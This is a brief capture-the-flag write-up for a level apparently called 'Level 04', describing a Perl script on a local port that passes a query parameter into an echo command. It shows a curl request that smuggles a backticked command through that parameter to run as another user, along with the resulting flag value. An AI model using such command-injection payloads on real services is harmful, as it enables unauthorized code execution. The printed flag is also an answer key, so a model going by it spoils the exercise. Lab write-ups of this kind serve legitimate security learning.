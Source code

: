 # Level 04

A perl script file can be found in the user directory. We can check the service is running with `netstat -tulpn`. 

We see in the source code that  the script contains a subroutine that takes as parameter `x`. It puts it in a `echo` command. Because the file has the flag04 owner, we can exploit this.

```bash
curl localhost:4747?x=lol # lol
url localhost:4747?x=\`getflag\` # ne2searoevaevoem4ov4ar8ap
```

